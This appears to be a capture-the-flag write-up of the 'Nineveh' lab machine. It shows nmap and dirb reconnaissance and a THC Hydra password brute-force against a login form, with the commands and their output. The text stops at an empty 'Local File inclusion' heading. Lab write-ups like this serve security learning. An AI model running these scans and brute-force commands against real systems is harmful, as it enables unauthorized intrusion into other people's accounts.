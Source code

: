 # Nineveh - 10.10.10.43
## Recon
### Nmap and stuff
You know the drill by now, ``nmap -sV -sS -v 10.10.10.43``.
```
Nmap scan report for 10.10.10.43
Host is up (0.17s latency).
Not shown: 998 filtered ports
PORT	STATE SERVICE  VERSION
80/tcp  open  http 	Apache httpd 2.4.18 ((Ubuntu))
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
```
The http one displays default apache page while SSL has a static picture, so we can assume that the routing is done differently depending on the protocol. Thus, dirb both of these.

```
dirb http://10.10.10.43/ /usr/share/wordlists/dirb/common.txt
dirb https://10.10.10.43/ /usr/share/wordlists/dirb/common.txt
```
Findings:
```
==> DIRECTORY: http://10.10.10.43/department/
...
==> DIRECTORY: https://10.10.10.43/db/
```
## Department panel

First thing is a nice login screen. In the beginning it's good to try some basic SQLi in Burp's Repeater, then send the request to sqlmap to run in background. For now, let's try other stuff.

### THC Hydra

Intercept the request in Burp to get the cookie and craft this hydra command. Use ``admin`` as a username, since it was discovered that it is a valid user.
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password:H=Cookie: PHPSESSID=gbva847ji81osirul39t7vouj2" -v
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-12-06 23:23:53
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.10.43:80//department/login.php:username=^USER^&password=^PASS^:Invalid Password:H=Cookie: PHPSESSID=gbva847ji81osirul39t7vouj2
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 817.00 tries/min, 817 tries in 00:01h, 14343582 to do in 292:37h, 16 active
[STATUS] 827.67 tries/min, 2483 tries in 00:03h, 14341916 to do in 288:49h, 16 active
[VERBOSE] Page redirected to http://10.10.10.43/department/manage.php
```
### Local File inclusion
